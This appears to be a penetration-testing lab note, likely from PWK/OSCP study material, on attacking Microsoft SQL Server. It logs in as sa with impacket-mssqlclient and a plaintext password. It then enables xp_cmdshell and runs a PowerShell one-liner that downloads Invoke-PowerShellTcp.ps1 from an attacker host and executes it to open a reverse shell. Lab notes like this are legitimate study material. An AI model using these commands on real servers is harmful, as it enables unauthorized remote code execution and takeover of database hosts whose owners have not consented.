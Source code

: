 # MSSQL

### Getting Access

Use impacket to connect to the server

```abap
impacket-mssqlclient  -port 1435 sa:EjectFrailtyThorn425@192.168.116.70
```

![Untitled](MSSQL%203ccca60abe454be8bee82e97c920a60a/Untitled.png)

### Code execution

Run these commands to get code execution. Learn more about it from [RALPH](https://www.notion.so/PWK-10-11-1-31-RALPH-527a00a6d3ec405b858ee725d7e1b096).

```abap
sp_configure "show advanced options", "1";
reconfigure;
sp_configure "xp_cmdshell", "1";
reconfigure;
exec master..xp_cmdshell "powershell /c iex(new-object net.webclient).downloadstring('http://192.168.119.210/Invoke-PowerShellTcp.ps1')"
```